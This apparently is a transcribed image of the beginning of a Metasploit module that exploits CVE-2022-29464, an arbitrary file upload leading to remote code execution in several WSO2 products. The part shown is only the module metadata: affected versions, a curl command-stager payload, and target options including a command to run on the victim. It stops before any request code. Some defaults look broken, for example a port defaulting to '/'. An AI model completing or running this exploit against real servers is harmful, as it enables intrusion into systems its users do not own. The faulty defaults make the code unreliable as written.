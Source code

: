 ![](https://i.imgur.com/EayjLAf.png)
```python
    #!/usr/bin/env python3

    # standard modules
    from metasploit import module

    # extra modules
    dependencies_missing = False
    try:
        import requests
        import urllib3
        import sys
        import time
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    except ImportError:
        dependencies_missing = True

    metadata = {
        'name': 'WSO2 Arbitrary File Upload to RCE',
        'description': '''
            This module abuses a vulnerability in certain WSO2 products that allow unrestricted file
              upload with resultant remote code execution. This affects WSO2 API Manager 2.2.0 and
              above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server
              Analytics 5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above
              through 5.10.0; and WSO2 Enterprise Integrator 6.2.0 and above through 6.6.0.
        ''',
        'authors': [
            'yuting',
        ],
        'date': '2022-05-24',
        'license': 'MSF_LICENSE',
        'references': [
                                    {'type': 'url', 'ref': 'https://github.com/hakivvi/CVE-2022-29464'},
            {'type': 'cve', 'ref': '2022-29464'}
        ],
        'type': 'remote_exploit_cmd_stager',
        'targets': [
          {'platform':'linux', 'arch': 'x86'}
        ],
        'payload': {
            'command_stager_flavor': 'curl',
        },
        'options': {
            'RPORT': {'type': 'int', 'description': 'Target port', 'required': True, 'default': '/'},
            'RHOST': {'type': 'address', 'description': 'Target address', 'required': True, 'default': '/'},       
            'TARGETURI': {'type': 'string', 'description': 'The base path', 'required': True, 'default': '/'},
            'METHOD': {'type': 'string', 'description': 'Vulunarable HTTP method', 'required': True, 'default': 'POST'},
            'COMMAND': {'type': 'string', 'description': 'The command to execute via the cmd GET parameter', 'required': True, 'default': 'ls'}   
        }
    }

    def find_base_url(args):
        base_url = 'http://{}:{}'.format(args['RHOST'], args['RPORT'])
```